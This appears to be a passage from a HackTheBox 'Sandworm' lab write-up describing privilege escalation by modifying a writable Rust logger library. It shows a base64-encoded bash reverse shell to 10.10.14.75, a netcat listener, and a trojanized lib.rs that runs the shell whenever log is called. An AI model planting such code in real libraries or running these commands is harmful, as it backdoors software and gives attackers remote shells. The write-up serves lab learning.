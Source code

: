 ```rust
drwxr-xr-x 5 atlas silentobserver  4096 May  4  2023 .
drwxr-xr-x 3 root  atlas           4096 May  4  2023 ..
-rw-r--r-- 1 atlas silentobserver 11644 May  4  2023 Cargo.lock
-rw-r--r-- 1 atlas silentobserver   190 May  4  2023 Cargo.toml
drwxrwxr-x 6 atlas silentobserver  4096 May  4  2023 .git
-rw-rw-r-- 1 atlas silentobserver    20 May  4  2023 .gitignore
drwxrwxr-x 2 atlas silentobserver  4096 May  4  2023 src
drwxrwxr-x 3 atlas silentobserver  4096 May  4  2023 target
silentobserver@sandworm:/opt/tipnet/src$ 
```

- We noticed that this program relied on an external library called `logger`, and we realized that our user, `silentobserver`, had the permission to modify files in the `src` directory of this library.

- To make our escape, we created a malicious `lib.rs` file. This file included instructions to execute a reverse shell command when the `logger::log` function was used.

```shell
┌──(kali㉿kali)-[~]
└─$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.75/445 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS80NDUgMD4mMSIK

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 445
listening on [any] 445 ...
```

```rust
silentobserver@sandworm:/tmp/curiosity-hackthebox$ cat lib.rs 
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let status = Command::new("sh")
        .arg("-c")
        .arg("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NS80NDUgMD4mMSIK | base64 -d | bash")
        .status()
        .expect("Failed to execute command");

    if status.success() {
        println!("Command executed successfully");
    } else {
        eprintln!("Command failed with exit code: {:?}", status);
    }

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

```